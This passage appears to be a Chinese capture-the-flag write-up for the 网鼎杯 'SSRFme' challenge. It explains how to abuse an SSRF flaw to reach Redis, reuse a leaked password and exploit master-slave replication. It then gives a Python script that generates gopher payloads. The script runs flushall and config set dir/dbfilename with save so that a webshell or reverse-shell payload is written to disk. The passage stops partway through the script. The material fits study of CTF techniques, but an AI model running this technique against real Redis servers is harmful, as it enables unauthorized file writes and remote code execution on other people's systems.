 ![QQ截图20200809165046.png](https://i.loli.net/2020/08/09/6FaoGNWjJAkUZnV.png)



成功加载模块

![QQ截图20200809165414.png](https://i.loli.net/2020/08/09/bEYqo18lfxAGIrt.png)



# 案例

利用方法一 内网

**网鼎杯-青龙组- SSRFme**



ssrf 访问到hint.php, 因为没有写的权限 

![QQ截图20200809170142.png](https://i.loli.net/2020/08/09/IkSj9G3F7sAUeOi.png)

又给了redis 密码, 可以利用主从复制



![QQ截图20200809170555.png](https://i.loli.net/2020/08/09/Jd1oTgWycj42GeZ.png)



因为在buu 上复现 ，无法连接外网，就开个linux lab 上伪造redis 

![QQ截图20200809175259.png](https://i.loli.net/2020/08/09/Gf7RIx5grusDVAF.png)



这里因为auth 原因只能用gopher 进行利用，在抓包过于繁琐 利用如下脚本构造,生成payload

```python
#!/usr/local/bin python
# coding=utf8

try:
    from urllib import quote
except:
    from urllib.parse import quote


def generate_shell(filename, path, passwd, payload):
    cmd = ["flushall",
           "set 1 {}".format(payload),
           "config set dir {}".format(path),
           "config set dbfilename {}".format(filename),
           "save"
           ]
    if passwd:
        cmd.insert(0, "AUTH {}".format(passwd))
    return cmd


def generate_reverse(filename, path, passwd, payload):  # centos

    cmd = ["flushall",
           "set 1 {}".format(payload),
           "config set dir {}".format(path),
           "config set dbfilename {}".format(filename),
           "save"
           ]
    if passwd:
        cmd.insert(0, "AUTH {}".format(passwd))
```